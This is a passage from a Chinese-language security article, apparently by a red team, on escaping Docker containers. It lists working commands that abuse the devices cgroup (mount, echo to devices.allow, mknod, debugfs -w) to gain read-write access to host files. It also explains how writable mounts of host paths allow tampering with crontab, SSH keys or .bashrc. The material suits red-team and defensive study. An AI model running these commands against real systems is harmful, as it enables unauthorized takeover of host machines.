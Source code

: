 另外一个比较小众方法是借助上面 lxcfs 的思路，复用到 sys\_admin 或特权容器的场景上读写母机上的文件。（腾讯蓝军的兄弟们问得最多的手法之一，每过一段时间就有人过来问一次 ~

1、首先我们还是需要先创建一个 cgroup 但是这次是 device subsystem 的。  
mkdir /tmp/dev  
mount -t cgroup -o devices devices /tmp/dev/

2、修改当前已控容器 cgroup 的 devices.allow，此时容器内已经可以访问所有类型的设备，命令：echo a > /tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow

3、同样的，我们可以使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，此时我们就有了读写宿主机任意文件的权限。  
mknod near b 252 1  
debugfs -w near

![](assets/1700701621-308c584aba3cac39da9a50ce9ce90bfe.png)

## 5.4、特殊路径挂载导致的容器逃逸

这类的挂载很好理解，当例如宿主机的内的 /, /etc/, /root/.ssh 等目录的写权限被挂载进容器时，在容器内部可以修改宿主机内的 /etc/crontab、/root/.ssh/、/root/.bashrc 等文件执行任意命令，就可以导致容器逃逸。
